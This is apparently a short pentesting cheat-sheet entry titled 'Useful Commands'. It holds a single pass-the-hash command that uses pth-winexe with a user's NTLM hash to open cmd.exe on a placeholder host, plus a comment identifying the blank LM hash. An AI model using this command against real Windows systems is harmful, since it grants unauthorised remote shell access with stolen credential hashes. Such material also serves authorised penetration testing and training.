 # Useful Commands
- Path the hash
  ~~~sh
  pth-winexe -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //${HOST} cmd.exe
  # aad3b435b51404eeaad3b435b51404ee: is the blnk LM hash
  ~~~



